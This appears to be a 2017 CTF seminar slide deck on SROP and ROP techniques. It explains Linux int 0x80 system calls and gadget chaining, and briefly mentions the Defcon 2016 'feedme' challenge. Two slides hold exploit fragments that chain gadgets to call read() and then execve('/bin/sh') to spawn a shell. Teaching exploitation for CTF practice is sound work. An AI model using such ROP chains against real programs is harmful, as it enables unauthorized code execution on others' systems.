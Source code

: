 footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] SROP 

### June 8, 2017   2O2L2H/humb1ec0ding

```
/awesome-ctf-wargame/seminar/topic/srop
```

---
# [fit] Linux System Calls

![left fit](./fig/linux-system-call.png)

- `int 80`
- system call number

---
# [fit] [Assembly System Calls](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)

![left fit](./fig/srop-arg.png)

- `eax` : system call number
- `ebx` : file descriptor - `stdin/out/err`
- `ecx` : buffer
- `edx` : siz


---
# system call : assembly

```
mov eax,1   ; system call number (sys_exit)
int 0x80    ; call kernel

mov edx,4   ; message length
mov ecx,msg ; message to write
mov ebx,1   ; file descriptor (stdout)
mov eax,4   ; system call number (sys_write)
int 0x80    ; call kernel
```

---
# [fit] gadget for system call

```
pop reg, ret
int 0x80, ret
```

```
# read(0, e.bss(), 0x8)
ex += p32(peax)    # pop eax
ex += p32(0x3)     # number of systemcall sys_read
ex += p32(pedcbx)  # pop edx/ecx/ebx
ex += p32(0x8)     # size of stdin
ex += p32(e.bss()) # buf for stdin
ex += p32(0)       # fd of stdin
ex += p32(int0x80) # invoke system calls in Linux on x86
```

---

```
# execve("/bin/sh",NULL, NULL)
ex += p32(peax)    # pop eax
ex += p32(0xb)     # number of systemcall sys_execve
ex += p32(pedcbx)  # pop edx/ecx/ebx
ex += p32(0)       # third argument of execve : NULL
ex += p32(0)       # second argument of execve : NULL
ex += p32(e.bss()) # first argument of execve : buf
ex += p32(int0x80) # invoke system calls
```

---
# [fit] Defcon 2016 feedme

- Canary : fork child, bruteforce
- SROP : static linked, stripped



